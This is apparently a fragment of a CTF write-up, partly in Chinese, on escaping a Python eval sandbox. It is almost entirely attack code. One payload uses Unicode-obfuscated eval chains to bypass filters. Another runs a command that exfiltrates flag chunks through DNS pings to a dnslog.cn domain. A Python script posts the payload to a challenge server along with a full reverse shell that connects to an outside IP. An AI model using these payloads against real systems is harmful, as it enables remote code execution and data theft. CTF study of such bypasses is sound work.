 分割flag多次外带

CMD为

```python
ᵉval(ᵉval(ᵉval(vars(request)[list(dict(headers=True))[False]][list(dict(Tao=True))[False]])))

__import__('so'[::-1]).system("ping+`cd+/;./readflag|base64|cut -b 61-68`.lgw597.dnslog.cn")
```

## payload 2

```python
import requests, base64

u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'
exp = b"globals()['request'].form['a']"
print(base64.b64encode(exp).decode())
CMD = f"eval(eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict({base64.b64encode(exp).decode()}=()))[len([])])))"
CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
CMD = CMD.replace("e", "ᵉ")
res = requests.post("http://139.196.153.118:30402/",
                    data={
                        "cmd": base64.b64encode(CMD.encode()),
                        "a": 'exec(\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.113.198.5",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\')'
                    }).text
print(res)
```

![image-20230503121532190](../.gitbook/assets/image-20230503121532190.png)
